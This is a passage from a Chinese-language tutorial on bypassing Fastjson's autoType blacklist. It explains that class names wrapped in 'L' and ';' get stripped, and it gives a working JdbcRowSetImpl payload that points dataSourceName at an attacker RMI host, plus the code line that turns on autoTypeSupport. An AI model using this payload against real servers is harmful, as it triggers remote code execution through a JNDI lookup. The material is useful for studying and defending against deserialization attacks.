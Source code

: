 此处的 loadclass 方法如下：**若类名以 L 开头；结尾，则会把这两个字符去掉并加载类**。

> 至于为什么会有这种奇怪的处理，`L `和`;`这一对字符其实是 JVM 字节码中用来表示类名的

![image-20230619161609186](img/image-20230619161609186.png)

**绕过方式**：所以在 autotypesupport 开启时，我们可以构造如下 payload 来 bypass

```javascript
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://ip:1099","autoCommit":true}
```

如何开启 autotypesupport？只需在 json 被解析前加入如下代码即可

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

![image-20230619162339270](img/image-20230619162339270.png)
